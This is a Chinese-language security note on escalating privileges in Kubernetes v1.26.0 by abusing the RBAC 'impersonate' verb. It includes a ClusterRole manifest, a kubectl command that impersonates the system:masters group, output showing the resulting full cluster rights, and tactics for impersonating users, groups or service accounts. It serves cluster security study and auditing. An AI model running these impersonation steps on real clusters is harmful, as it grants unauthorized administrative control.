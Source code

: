 
测试kubernetes版本：v1.26.0


## 利用`impersonate`进行权限提升

`impersonate`动词的作用是允许当前主体以其他的主体的身份访问apiserver，详细见： [用户伪装](https://kubernetes.io/zh-cn/docs/reference/access-authn-authz/authentication/)


`impersonate`动词在以下资源范围生效，对应着http请求和kubectl的不同参数，见下表：

| 资源名称       | HTTP Headers                   | kubectl参数 |
| -------------- | ------------------------------ | ----------- |
| users           | Impersonate-User               | --as        |
| groups          | Impersonate-Group              | --as-group  |
| serviceaccounts | Impersonate-User               | -as         |
| userextras     | Impersonate-Extra-(extra name) | 不支持           |


允许对以上资源进行伪装的`clusterrole`如下：

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: impersonator
rules:
- apiGroups: [""]
  resources: ["users", "groups", "serviceaccounts"]
  verbs: ["impersonate"]
- apiGroups: ["authentication.k8s.io"]
  resources: ["userextras"]
  verbs: ["impersonate"]
```

原主体权限如下：

`kubectl  auth can-i --list`

```text
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
groups                                          []                                    []               [impersonate]
serviceaccounts                                 []                                    []               [impersonate]
users                                           []                                    []               [impersonate]
userextras.authentication.k8s.io                []                                    []               [impersonate]
```

模拟`system:master`用户组权限

`kubectl --as=what-you-want --as-group=system:masters auth can-i --list`

`--as`参数随意指定，k8s不负责管理用户信息，所以k8s也没有办法验证`--as`值是否合法

```text
Resources                                       Non-Resource URLs   Resource Names   Verbs
*.*                                             []                  []               [*]
                                                [*]                 []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

## 绑定不同资源的情况下的攻击手法

* 当前主体绑定了`users`资源的`impersonate`，需要找一个`user`被绑定了某一个角色，这个有权限的`user`是需要提前知道的
* 当前主体绑定了`users`和`groups`资源的`impersonate`，直接模拟`system:master`组的任意用户名即可
* 当前用户绑定了`serviceaccounts`资源的`impersonate`，尝试绑定k8s系统组件、其他跑在k8s上的开源产品如istio、各n`amespace`默认的`serviceaccount`
